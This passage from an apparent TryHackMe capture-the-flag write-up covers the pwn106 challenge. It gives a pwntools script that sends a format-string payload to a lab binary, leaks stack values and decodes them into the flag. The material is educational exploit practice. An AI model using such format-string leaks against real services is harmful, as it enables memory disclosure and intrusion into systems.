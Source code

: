 Some brute force actions we found right order of hex codes and reverse unhexed values and get the flag.

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn106user.pwn106-user'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)

payload = b"%6$lX.%7$lX.%8$lX.%9$lX.%10$lX.%11$lX"

io = start()
io.recv()
io.recv()
io.sendline(payload)
output = io.recv().strip().split(b" ")[1].split(b".")
flag = ""
for word in output:
    decoded = unhex(word.decode("utf-8"))
    reverse_decoded = decoded[::-1]
    print(str(reverse_decoded.decode("utf-8")), end ="")
```

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2028.png)

# Challenge 7 - pwn107
